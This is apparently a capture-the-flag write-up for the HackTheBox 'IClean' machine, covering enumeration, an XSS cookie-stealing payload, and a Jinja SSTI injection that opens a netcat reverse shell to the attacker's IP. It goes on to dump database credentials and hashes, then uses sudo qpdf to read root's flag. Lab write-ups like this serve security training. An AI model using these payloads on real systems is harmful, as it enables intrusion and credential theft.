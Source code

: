 ```yaml
---
layout: post
title: "HTB Linux Medium: IClean"
description: "IClean is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.129.206.253  
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-04-09 11:29 EDT
Nmap scan report for 10.129.206.253
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.10 seconds

```

Modify hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.129.206.253 capiclean.htb                   
```


## Enumerate HTTP (Port 80)
Landing page.
![Pasted image 20240714211745.png](/images/Pasted image 20240714211745.png){: .normal }

Doing directory busting using Gobuster, we find a couple of pages:
```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 5267]
/choose               (Status: 200) [Size: 6084]
/dashboard            (Status: 302) [Size: 189] [--> /]
/login                (Status: 200) [Size: 2106]
/logout               (Status: 302) [Size: 189] [--> /]
/quote                (Status: 200) [Size: 2237]
/server-status        (Status: 403) [Size: 278]
/services             (Status: 200) [Size: 8592]
/team                 (Status: 200) [Size: 8109]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

On the quotes page we can enter an email:
![Pasted image 20240714211738.png](/images/Pasted image 20240714211738.png){: .normal }

We can use XSS to obtain a privileged cookie:
```bash
<img src=x onerror=this.src="<http://10.10.14.44/?cookie=>"+document.cookie>
```

Request used: (URL encoded)
![Pasted image 20240714211733.png](/images/Pasted image 20240714211733.png){: .normal }

Result:
```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80                                                                
Serving HTTP on 0.0.0.0 port 80 (<http://0.0.0.0:80/>) ...
10.129.206.253 - - [09/Apr/2024 11:43:46] "GET /?cookie=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhMNCQ.8b1i8Jdf7mrnOgOURge6IeEbZwg HTTP/1.1" 200 -
```

We can now modify our cookie to the value we received.
![Pasted image 20240714211726.png](/images/Pasted image 20240714211726.png){: .normal }


In order to create a QR code we first have to create an invoice (we can find the invoice ID in the Burp response).
![Pasted image 20240714211720.png](/images/Pasted image 20240714211720.png){: .normal }


In the Generate QR page there is an SSTI vulnerability.
![Pasted image 20240714211711.png](/images/Pasted image 20240714211711.png){: .normal width="450"}


Result:
```bash
<img src="data:image/png;base64,9" alt="QR Code">
```


### Gain Shell
Payload: (URL encode)
{% raw %}
```bash
{{request|attr('application')|attr('\\x5f\\x5fglobals\\x5f\\x5f')|attr('\\x5f\\x5fgetitem\\x5f\\x5f')('\\x5f\\x5fbuiltins\\x5f\\x5f')|attr('\\x5f\\x5fgetitem\\x5f\\x5f')('\\x5f\\x5fimport\\x5f\\x5f')('os')|attr('popen')('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.44 4444 >/tmp/f')|attr('read')()}}
```
{% endraw %}

Shell as www-data:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444              
listening on [any] 4444 ...
connect to [10.10.14.44] from (UNKNOWN) [10.129.206.253] 38342
bash: cannot set terminal process group (1200): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## Lateral movement
In the app.py file located in the `/opt/app` folder we find database credentials:
```bash
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

Access the database using the found credentials:
```bash
mysql -u iclean -p
Enter password:
```

We find a hashed password in the users table.
```bash
mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)
```

Crack the hash using crackstation.net: `simple and clean`.
![Pasted image 20240714211655.png](/images/Pasted image 20240714211655.png){: .normal }


SSH as conseula:
```bash
┌──(kali㉿kali)-[~]
└─$ ssh consuela@capiclean.htb
consuela@capiclean.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/pro>

  System information as of Thu Apr 25 12:39:45 PM UTC 2024

Expanded Security Maintenance for Applications is not enabled.

3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See <https://ubuntu.com/esm> or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Apr 25 12:39:45 2024 from 10.10.14.144
consuela@iclean:~$ id
uid=1000(consuela) gid=1000(consuela) groups=1000(consuela)

```

User flag: `b19e7ca76bc9ad0b28a37c1a69722e8b`
```bash
consuela@iclean:~$ cat user.txt 
b19e7ca76bc9ad0b28a37c1a69722e8b
```


## Privilege Escalation
Sudo -l output
```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

We can use qpdf to convert the root.txt file into a PDF by abusing attachments.
```bash
sudo qpdf --empty --add-attachment /root/root.txt --mimetype=text/plain -- extract.pdf
```

Now use binwalk to extract the content.
```bash
┌──(kali㉿kali)-[/tmp]
└─$ binwalk -Me extract.pdf
```

A new directory should be made in which you will find the extracted PDF document.
```bash
┌──(kali㉿kali)-[/tmp]
└─$ cd _extract.pdf.extracted
```

Root flag: `1b8e35478d961273692e95d792b99f74`
```bash
┌──(kali㉿kali)-[/tmp/_extract.pdf.extracted]
└─$ cat 224                  
f48a635cde968eac9f323f88067c058c
```


## PWNED!!!
![Pasted image 20240714211645.png](/images/Pasted image 20240714211645.png){: .normal }